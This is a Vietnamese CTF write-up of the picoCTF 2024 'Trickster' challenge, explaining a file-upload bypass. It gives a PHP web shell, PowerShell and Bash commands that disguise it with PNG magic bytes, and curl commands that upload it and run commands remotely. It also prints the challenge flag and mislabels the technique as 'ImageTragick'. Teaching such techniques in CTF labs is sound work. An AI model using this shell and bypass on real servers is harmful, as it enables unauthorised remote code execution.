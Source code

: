 ```yaml
---
title: Trickster
date: 2025-10-27 23:00:00 +0700
categories: [Web Exploitation, PicoCTF 2024, Medium]
tags: [web, pico, medium]
author: khoa
description: I found a web app that can help process images, PNG images only!
toc: true
comments: true
---
```


## **Cách mình làm**

### Soi web
Vừa vào web thì mình thấy nó cho mình phần upload file như thế này:
![img-description](https://i.ibb.co/tTkXCvyj/image-2025-10-27-224600263.png)
_Sau khi vào web_

Check thử robots.txt xem có gì hot:
![img-description](https://i.ibb.co/Z6nSY62c/image-2025-10-27-224740109.png)
_Robots.txt_

Vậy là mình biết nó có phần /uploads/

### Nghịch
Kỹ thuật mình sẽ sử dụng là ImageTragick!, thêm magic byte của file png vào file .php rồi upload lên cho nó thực thi lệnh (RCE)

#### Shell.php
Đầu tiên các bạn cần chuẩn bị 1 file shell.php với nội dung như sau:
```php
<?php system($_GET['cmd']); ?>
```

#### PNG Header
Sau đó các bạn thêm PNG Header vào để nguỵ trang:
##### PowerShell (Windows)
```powershell
[System.IO.File]::WriteAllBytes("shell.png.php", @(0x89,0x50,0x4E,0x47,0x0D,0x0A,0x1A,0x0A))
Get-Content shell.php -Raw | Out-File -Append -Encoding ASCII shell.png.php
```

##### Bash (Linux)
```bash
echo -ne '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A' > shell.png.php
cat shell.php >> shell.png.php
```

![img-description](https://i.ibb.co/LXN3RZvN/image-2025-10-27-225425603.png)
_Sau khi tạo file nguỵ trang_

#### Upload File

Dùng Burp Suite hoặc curl:
```bash
curl -F 'file=@shell.png.php' http://atlas.picoctf.net:PORT/
```

Khi thành công → file được lưu tại `/uploads/shell.png.php`

![img-description](https://i.ibb.co/QFCYL4QP/image-2025-10-27-225602779.png)
_Sau khi upload file_

#### RCE
Truy cập shell:
```bash
curl "http://atlas.picoctf.net:PORT/uploads/shell.png.php?cmd=whoami"
```

Và mình đã RCE thành công!!!
![img-description](https://i.ibb.co/Lz7HNFcp/image-2025-10-27-225758108.png)
_RCE thành công_

Thử ls quanh quanh thì thấy có cái file txt này lạ lạ:
![img-description](https://i.ibb.co/4wTnM54W/image-2025-10-27-225906341.png)
_ls quanh quanh_

Cat thử thì có flag nè!!!
![img-description](https://i.ibb.co/6JbkrXd4/image-2025-10-27-230025466.png)
_lòi flag_

FLAG: **picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03}**

## **Kết luận**
### Bản chất
Đây là một lỗ hỏng upload file, bypass bằng các Magic Bytes của file png, từ đó các bạn có thể thực thi lệnh

### Cách làm
B1: Tạo file png giả, có chứa nội dung của file php để thực thi shell

B2: Upload lên web

B3: Phá!!!

### Tại sao Magic Bytes có thể bypass được và cho phép RCE???
Lý do cốt lõi là sự kiểm tra không đầy đủ.

Hệ thống chỉ quan tâm đến "cái mác" (magic byte) mà bỏ qua hoàn toàn "nội dung" (phần còn lại của tệp). Kẻ tấn công chỉ cần "dán đúng mác" lên một "gói hàng cấm" là có thể vượt qua trạm kiểm soát.

Nói chung là cũng tại thằng dev mà thôi =)))

## **Lời kết**

Chúc các bạn đánh CTF vui vẻ!!!



